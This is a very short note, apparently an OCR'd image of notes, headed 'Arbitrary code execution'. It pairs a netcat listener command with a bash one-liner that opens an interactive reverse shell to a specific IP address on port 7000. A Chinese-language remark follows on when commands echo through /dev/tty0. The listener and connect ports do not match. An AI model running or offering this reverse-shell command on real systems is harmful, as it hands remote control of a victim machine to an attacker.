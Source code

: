 # Arbitrary code execution 
nc -lvp 8080 (listen, verbose, port)
bash -i >& /dev/tcp/142.132.208.240/7000  0>&1
注意回显是/dev/tty0自动显示的,如果0/1/2至少一个连接着/dev/tty0,那么命令就会回显到当前命令行,否则不会。
